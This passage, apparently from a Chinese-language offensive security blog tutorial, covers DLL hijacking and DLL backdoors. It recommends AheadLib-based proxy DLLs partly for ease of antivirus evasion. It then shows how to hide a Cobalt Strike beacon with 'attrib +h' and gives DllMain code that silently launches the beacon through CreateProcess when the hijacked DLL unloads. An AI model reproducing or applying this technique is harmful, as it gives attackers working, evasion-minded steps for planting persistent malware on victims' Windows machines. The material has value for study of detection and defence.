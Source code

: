 然后执行的时候,发现虽然成功hook了

[![](https://p0.ssl.qhimg.com/t01083030570462b298.png)](https://p0.ssl.qhimg.com/t01083030570462b298.png)

但是获取相应的导出函数,也还是失败的, 而且很奇怪realease 和 debug编译的时候,release版本连demo都在win10跑不起来。

### <a class="reference-link" name="0x3.4%20%E6%80%BB%E7%BB%93"></a>0x3.4 总结

经过上面的简单测试, 不难得出，无论是从简易性，实用性，操作性(方便免杀)来看，我都推荐新手使用第一种方式，缺点也有，就是可能导出函数比较多的时候，会比较麻烦，但是这些不是什么大问题。因为尽量能用微软提供的功能去解决，远远比自己去patch内存来更有效，可以避免很多隐藏机制，系统版本等问题的影响，通用性得到保证, 所以下面的操作我将会采取AheadLib来进行展示。



## 0x4 DLL后门的利用

DLL查杀,其实也是针对shellcode的查杀,下面先写一个简单的加载shellcode的恶意代码。

### <a class="reference-link" name="0x4.1%20%E5%A4%9A%E6%96%87%E4%BB%B6%E5%88%A9%E7%94%A8%E6%96%B9%E6%B3%95"></a>0x4.1 多文件利用方法

最简单的一种利用手段就是:

存放我的cs木马beacon到一个比较隐蔽的目录:

`C:\Users\xq17\Desktop\shellcode\beacon.exe`

[![](https://p5.ssl.qhimg.com/t0102a0ba184f0be5b6.png)](https://p5.ssl.qhimg.com/t0102a0ba184f0be5b6.png)

然后给这个文件加一个隐藏属性:

`attrib +h beacon.exe`

[![](https://p2.ssl.qhimg.com/t01999c255a6d4afd54.png)](https://p2.ssl.qhimg.com/t01999c255a6d4afd54.png)

接着我们采用DLL去加载这个木马。

代码大概如下:

```
////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////
// 入口函数
BOOL WINAPI DllMain(HMODULE hModule, DWORD dwReason, PVOID pvReserved)
`{`
    if (dwReason == DLL_PROCESS_ATTACH)
    `{`
        DisableThreadLibraryCalls(hModule);
    `}`
    else if (dwReason == DLL_PROCESS_DETACH)
    `{`
        STARTUPINFO si = `{` sizeof(si) `}`;
        PROCESS_INFORMATION pi;
        CreateProcess(TEXT("C:\\Users\\xq17\\Desktop\\shellcode\\beacon.exe"), NULL, NULL, NULL, false, 0, NULL, NULL, &amp;si, &amp;pi);
    `}`

    return TRUE;
`}`
```
